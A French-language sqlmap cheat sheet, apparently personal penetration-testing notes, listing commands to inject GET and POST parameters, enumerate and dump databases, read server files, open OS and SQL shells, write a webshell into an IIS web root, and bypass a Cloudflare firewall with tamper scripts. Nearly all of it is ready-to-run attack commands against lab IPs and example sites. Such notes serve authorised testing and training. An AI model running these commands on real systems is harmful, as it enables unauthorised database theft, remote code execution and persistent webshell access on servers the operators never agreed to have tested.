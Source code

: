 # sqlmap

## pratique:

1. Faire un “copy to file” de la requête depuis burp ou Zap (avec headers+data)
2. Remplacer les valeurs à injecter par "*"
2. sqlmap -r <fichier> -a --batch


## en GET

```sh
sqlmap -u "http://example.com/?a=1&b=2&c=3" -p "a,b"
```

## en POST

```sh
sqlmap -u "http://example.com/" --data "a=1&b=2&c=3" -p "a,b" --method POST
```  

## lister les tables:

```sh
sqlmap -u http://10.10.10.143/room.php?cod=1 -p "cod" --dbms=mysql --tables
```

## lister les tables d'une base

```sh
python sqlmap.py -u "http://www.site.com/section.php?id=51" --tables -D safecosmetics
```

## lister les colonne d'une tables:

```sh
python sqlmap.py -u "http://www.site.com/section.php?id=51" --columns -D safecosmetics -T users
```

## dumper une seule table:

```sh
sqlmap -u http://10.10.10.143/room.php?cod=1 -p "cod" --dbms=mysql -D 'mysql' -T 'user' --dump
```

## tout dumper

```sh
sqlmap -u http://10.10.10.10.... --dbms=mysql --dump-all
```

## dumper la base courante 

```sh
sqlmap -u http://10.10.10.10.... --dbms=mysql --dump
```

## from and by Burp 

```sh
--proxy=http://127.0.0.1:8080
```

## sqlmap crawl 

```sh
sqlmap -u http://10.10.10.10 --crawl=1
```

## sqlmap shell 

```sh
sqlmap -u http://10.10.10.10 --dbms=mysql --os-shell
```

## upload webshell

```sh
sudo sqlmap -r sqli_search_productName --file-write=webshell.php --file-dest=c:/inetpub/wwwroot/webshell.php --batch
```

## lire un fichier:

```sh
sqlmap -u http://127.0.0.1:1080/blog/single.php?id=* --level 5 --risk 3 --batch --file-read=/opt/lampp/htdocs/index.php
```

## checker les privs:

```sh
sqlmap -u 192.168.1.124/sqli/Less-1/?id=1 --privileges
```

## proxy

```sh
--temper pour le bypass de proxy
```

## Commande SQL:

```sh
sqlmap -u http://127.0.0.1:1080/blog/single.php?id=* --level 5 --risk 3 --batch --dbms=mysql --sql-shell

sql-shell> SELECT * FROM blogs
```

## sous windows:

1. télécharger le [projet](https://github.com/sqlmapproject/sqlmap) et lancer: python ./sqlmap.py

```powershell
python.exe .\sqlmap.py -r ..\VLA-auth-login.raw -a --batch
```

## cloudflare bypaass

```powershell
python.exe .\sqlmap.py -r .\question.raw --batch tamper="between,randomcase,space2comment" --random-agent
```

## Quick and Dirty A NE PAS FAIRE EN PROD

```Powershell
python.exe .\sqlmap.py -r ..\VLA-auth-login.raw -a --batch --level 5 --risk 3 --proxy=http://127.0.0.1:8080 --flush-session
```